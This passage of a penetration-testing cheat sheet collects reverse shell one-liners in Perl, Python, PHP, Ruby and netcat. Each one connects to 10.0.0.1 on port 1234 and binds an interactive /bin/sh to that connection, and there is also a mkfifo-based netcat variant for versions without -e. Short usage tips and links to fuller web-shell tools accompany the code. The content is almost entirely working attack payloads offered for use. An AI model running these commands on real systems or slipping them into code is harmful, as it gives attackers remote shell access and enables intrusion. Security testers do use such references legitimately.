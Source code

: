 ### PERL

Here’s a shorter, feature-free version of the [perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell):

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

There’s also an [alternative PERL revere shell here](http://www.plenz.com/reverseshell).

### Python

This was tested under Linux / Python 2.7:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

If you want a .php file to upload, see the more featureful and robust [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

### Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

```shell
nc -e /bin/sh 10.0.0.1 1234
```

If you have the wrong version of netcat installed, [Jeff Price points out here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) that you might still be able to get your reverse shell back like this:

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
